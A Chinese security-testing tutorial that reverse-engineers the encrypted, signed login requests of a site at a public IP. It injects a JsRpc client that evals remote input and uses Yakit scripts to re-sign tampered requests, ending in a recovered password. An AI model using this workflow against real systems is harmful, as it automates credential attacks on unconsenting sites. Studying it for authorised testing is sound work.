### 案例站点
[http://39.98.108.20:8085/#/login](http://39.98.108.20:8085/#/login)

### 为什么js调试


数据传输加密的……，不js调试又如何测试呢

### 开始调试
#### 定位发包函数
由于网站使用webpacket进行打包，js变量混乱，且数据包post内容无法直接定位，这边用一个chrome插件进行定位

#### [v_jstools-main.zip](https://www.yuque.com/attachments/yuque/0/2025/zip/26698826/1756774381491-159b5bd3-9d89-4fab-ae2e-3aa6da8b1932.zip)
安装直接解压，加载未打包的扩展程序，直接安装即可，插件配置如下  


当提交登陆表单后，控制台打印如下内容，跟进



#### 进一步分析
在给出的位置上打断点，然后重新提交表单



这边看一下`t.data = l(n);`在控制台进行打印



可以对比发现n是我们的表单，通过了l()这个函数的加密就得到了我们刚刚发送的密文



#### 理解了明文变密文的过程如何测试呢？有两个方法
##### 打断点直接调试
1. 在加密前进行修改明文，还是老位置断点
2. 在控制台进行修改

其中控制台直接输入函数/变量名会直接打印函数内容或者变量值，

`n='{"password":"admin123","username":"admin","validCode":"sdah"}'`的意思是将等号右边的内容赋值给左边的n



3. 跳过后续调试直接运行



发现显示签名过期，这说明我断点断晚了，或者说sign没修改，导致sign校验失败



sign内容是啥？  


看代码可以发现是s赋值给了sign，而刚刚s我们没改，所以签名不正确，这简单再来一次，这次把签名改了就行



n进行了修改，s的值也得重新计算，调用原本的函数直接运行即可



4. 补充(如何查看l函数内容)





到了要运行`l(n)`的时候鼠标放在l上出现以下内容



点击跟进



<font style="color:rgb(63, 63, 63);">其中t参数为原始的内容，f参数为密钥，h为密码，在部分项目上也算个垃圾漏洞(密钥泄漏)</font>

##### jsrpc
个人用这个方法相对多一些

首先什么是jsrpc，jsrpc是一个github的一个开源项目，简单来说jsrpc功能就是将网页中的js函数映射到本地，脱离只能在控制台调用js函数的限制情况。[https://github.com/jxhczhl/JsRpc](https://github.com/jxhczhl/JsRpc)

什么情况下用jsrpc，厌倦了频繁的进行打断点调试改字符串……

#### jsrpc(稍微高级些)
##### 启动jsrpc并注入js代码


将下面这一段粘贴到控制台

```javascript
var rpc_client_id, Hlclient = function (wsURL) {
  this.wsURL = wsURL;
  this.handlers = {
    _execjs: function (resolve, param) {
      var res = eval(param)
      if (!res) {
        resolve("没有返回值")
      } else {
        resolve(res)
      }
    }
  };
  this.socket = undefined;
  if (!wsURL) {
    throw new Error('wsURL can not be empty!!')
  }
  this.connect()
}
Hlclient.prototype.connect = function () {
  if (this.wsURL.indexOf("clientId=") === -1 && rpc_client_id) {
    this.wsURL += "&clientId=" + rpc_client_id
  }
  console.log('begin of connect to wsURL: ' + this.wsURL);
  var _this = this;
  try {
    this.socket = new WebSocket(this.wsURL);
    this.socket.onmessage = function (e) {
      _this.handlerRequest(e.data)
    }
  } catch (e) {
    console.log("connection failed,reconnect after 10s");
    setTimeout(function () {
      _this.connect()
    }, 10000)
  }
  this.socket.onclose = function () {
    console.log('rpc已关闭');
    setTimeout(function () {
      _this.connect()
    }, 10000)
  }
  this.socket.addEventListener('open', (event) => {
    console.log("rpc连接成功");
  });
  this.socket.addEventListener('error', (event) => {
    console.error('rpc连接出错,请检查是否打开服务端:', event.error);
  })
};
Hlclient.prototype.send = function (msg) {
  this.socket.send(msg)
}
Hlclient.prototype.regAction = function (func_name, func) {
  if (typeof func_name !== 'string') {
    throw new Error("an func_name must be string");
  }
  if (typeof func !== 'function') {
    throw new Error("must be function");
  }
  console.log("register func_name: " + func_name);
  this.handlers[func_name] = func;
  return true
}
Hlclient.prototype.handlerRequest = function (requestJson) {
  var _this = this;
  try {
    var result = JSON.parse(requestJson)
  } catch (error) {
    console.log("请求信息解析错误", requestJson);
    return
  }
  if (result["registerId"]) {
    rpc_client_id = result['registerId']
    return
  }
  if (!result['action'] || !result["message_id"]) {
    console.warn('没有方法或者消息id,不处理');
    return
  }
  var action = result["action"], message_id = result["message_id"]
  var theHandler = this.handlers[action];
  if (!theHandler) {
    this.sendResult(action, message_id, 'action没找到');
    return
  }
  try {
    if (!result["param"]) {
      theHandler(function (response) {
        _this.sendResult(action, message_id, response);
      })
      return
    }
    var param = result["param"]
    try {
      param = JSON.parse(param)
    } catch (e) {
    }
    theHandler(function (response) {
      _this.sendResult(action, message_id, response);
    }, param)
  } catch (e) {
    console.log("error: " + e);
    _this.sendResult(action, message_id, e);
    }
}
Hlclient.prototype.sendResult = function (action, message_id, e) {
    if (typeof e === 'object' && e !== null) {
        try {
            e = JSON.stringify(e)
        } catch (v) {
            console.log(v)//不是json无需操作
        }
    }
    this.send(JSON.stringify({"action": action, "message_id": message_id, "response_data": e}));
}
```



上面的js执行结果不报错即可，

```javascript
var demo = new Hlclient("ws://127.0.0.1:12080/ws?group=zzz");
```

上面这个也复制到控制台，效果是与本地jsrpc客户端建立连接，显示rpc连接成功即可

##### 开始构建函数
这里函数什么意思，就是想要把网页js的什么功能代理到本地

这个站点显然我们需要时间戳，密文sign/timestamp/requestId这个函数，构建如下js代码，进行注入，其中req7是自定义的名字

```javascript
//时间戳
window.time = Date.parse
//requestId
window.id = p
//v函数
window.v1 = v
//签名
window.m = a.a.MD5
//加密
window.enc = l

demo.regAction("req7", function (resolve,param) {
    //请求头
    let timestamp = time(new Date());
    let requestid = id();
    let v_data = JSON.stringify(v1(param));
    let sign = m(v_data + requestid + timestamp).toString();
    //加密请求体
    let encstr = enc(v_data);

    let res = {
        "timestamp":timestamp,
        "requestid":requestid,
        "encstr":encstr,
        "sign":sign
    };
    resolve(res);
})
```

老位置断点，js函数构建



然后再放开断点

##### 验证rep5是否构建成功
```javascript
GET /go?group=zzz&action=req7&param={"password":"123","username":"test","validCode":"sdah"} HTTP/1.1
Host: 127.0.0.1:12080
```



成功构建req7

##### yakit热加载调用jsrpc执行
```javascript
beforeRequest = func(https, originReq, req) {
    pag=`POST /go?group=zzz&action=req&param={"password":"admin123","username":"admin","validCode":"smx1"} HTTP/1.1
Host: 127.0.0.1:12080
`
rsp,_,_ =poc.HTTP(pag)
res,_:=poc.ParseBytesToHTTPResponse(rsp)
b,_=io.ReadAll(res.Body)
c=json.loads(b)
d=c.data
e=json.loads(d)
req=poc.ReplaceHTTPPacketHeader(req, "timestamp", e["timestamp"])
req=poc.ReplaceHTTPPacketHeader(req, "requestId", e["requestid"])
req=poc.ReplaceHTTPPacketHeader(req, "sign", e["sign"])
req=poc.ReplaceHTTPPacketBody(req, e["encstr"])
    // 将修改后的请求返回
    return []byte(req)
}
```

```javascript
func getEnc(data){
    rsp,rep,err = poc.Post("http://127.0.0.1:12080/go",poc.replaceBody("group=zzz&action=req&param="+data, false),poc.appendHeader("content-type", "application/x-www-form-urlencoded"))
    if(err){
        return(err)
    }

    return json.loads(rsp.GetBody())["data"]
}

// beforeRequest 允许发送数据包前再做一次处理，定义为 func(origin []byte) []byte
beforeRequest = func(req) {
    //获取请求体
    req_body = poc.GetHTTPPacketBody(req)
    //加密
    res = getEnc(string(req_body))
    //获取其他的参数
    res = json.loads(res)

    //修改其他的请求头
    req = poc.ReplaceHTTPPacketHeader(req, "requestId", res["requestid"])
    req = poc.ReplaceHTTPPacketHeader(req, "timestamp", res["timestamp"])
    req = poc.ReplaceHTTPPacketHeader(req, "sign", res["sign"])

    //修改请求体
    req = poc.ReplaceHTTPPacketBody(req, res["encstr"])


    return []byte(req)
}

```





成功获取密码



